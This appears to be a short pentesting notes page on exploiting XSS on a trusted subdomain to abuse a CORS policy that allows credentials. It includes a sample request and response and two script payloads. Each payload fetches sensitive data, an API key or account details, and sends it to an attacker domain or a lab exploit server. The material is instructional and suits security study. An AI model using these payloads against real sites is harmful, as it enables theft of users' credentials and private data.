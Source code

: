 ## Exploiting XSS via CORS trust relationships

- if CORS Configured to establish trust relationship between `Two Origins`, and if a web app trusts an `Origin` that is `vulnerable to XSS`.
- Then an attacker can exploit `XSS` to inject some `JS` that uses `CORS` to Retrieve sensitive information from the site that trust the vulnerable application.
- `Example:`
request

```
GET /api/requestApiKey HTTP/1.1
Host: vuln-web.com
Origin: <https://subdomain.vuln-web.com>
Cookie: sessionID=34erjf4kh5i34hw5yri

```

and server Responds with

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: <http://subdomain.vuln-web.com>
Access-Control-Allow-Credentials: true

```

- then attacker find `XSS` on [subdomain.vuln-web.com](http://subdomain.vuln-web.com/) & use that to retrieve `ApiKey` using URL like

```
<https://subdomain.vuln-web.com/?xss=>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<http://vuln-web.com/senditive-info>',true);
req.withCredentials = true;
req.send();

function reqListener(){
location='//attackerdomain.com/?key='+this.responseText;</script>

```

or another exploit for `CORS using XSS`

```
<script>
document.location="<http://stock.acca1fa91f3524af80e8305a00a9006a.web-security-academy.net/?productId=><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','<https://acca1fa91f3524af80e8305a00a9006a.web-security-academy.net/accountDetails','true>');req.withCredentials = true;req.send();function reqListener(){ location='<https://acbc1f361f42242980a630bc01ba0080.web-security-academy.net/log/?key=>'%2bthis.responseText;};%3c/script>&storeId=1"
</script>

```
